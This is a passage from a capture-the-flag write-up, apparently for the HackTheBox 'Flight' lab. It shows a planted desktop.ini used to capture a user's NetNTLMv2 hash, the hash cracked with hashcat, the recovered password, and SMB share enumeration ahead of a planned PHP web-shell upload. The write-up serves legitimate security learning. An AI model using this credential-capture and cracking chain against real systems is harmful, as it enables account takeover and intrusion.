 ```shell
drw-rw-rw-          0  Tue Nov 19 11:30:52 2024 ..
# put desktop.ini
# ls
drw-rw-rw-          0  Tue Nov 19 11:38:55 2024 .
drw-rw-rw-          0  Tue Nov 19 11:38:55 2024 ..
-rw-rw-rw-         56  Tue Nov 19 11:38:55 2024 desktop.ini
```

It worked! We got some the hash of the user C.Bum:

```shell
[*] AUTHENTICATE_MESSAGE (flight.htb\c.bum,G0)
[*] User G0\c.bum authenticated successfully
[*] c.bum::flight.htb:aaaaaaaaaaaaaaaa:584588b60ab913233947aecb454a883c:0101000000000000806fcae0663adb017fdbccb5ee16d1d400000000010010004900500048006100460066006700560003001000490050004800610046006600670056000200100049004a004200570047007000540041000400100049004a0042005700470070005400410007000800806fcae0663adb0106000400020000000800300030000000000000000000000000300000f14ec98eb174c7fff2d0b0a2341a17003ddae9abef30be4f3dc7809f913d88bc0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003200300036000000000000000000
[*] Closing down connection (10.129.228.120,56781)
[*] Remaining connections []
```

Lets try to crack the hash:

```shell
# Put the hash into a text file and save it as svc_apache_hash.txt
echo 'c.bum::flight.htb:aaaaaaaaaaaaaaaa:584588b60ab913233947aecb454a883c:0101000000000000806fcae0663adb017fdbccb5ee16d1d400000000010010004900500048006100460066006700560003001000490050004800610046006600670056000200100049004a004200570047007000540041000400100049004a0042005700470070005400410007000800806fcae0663adb0106000400020000000800300030000000000000000000000000300000f14ec98eb174c7fff2d0b0a2341a17003ddae9abef30be4f3dc7809f913d88bc0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003200300036000000000000000000' > c_bum_hash.txt

# Use hashcat to crack it
hashcat -m 5600 c_bum_hash.txt /usr/share/wordlists/rockyou.txt
```

We managed to successfully crack the hash of the user c.bum, giving us the following credentials:

```shell
C.Bum:Tikkycoll_431012284
```

# Foothold

### Using C.Bum write permission on Web SMB share to upload a .php shell
Lets check what we can do with the user C.Bum. We can try checking SMB shares permission first:

```shell
nxc smb 10.129.228.120 -u C.Bum -p 'Tikkycoll_431012284' --shares
```
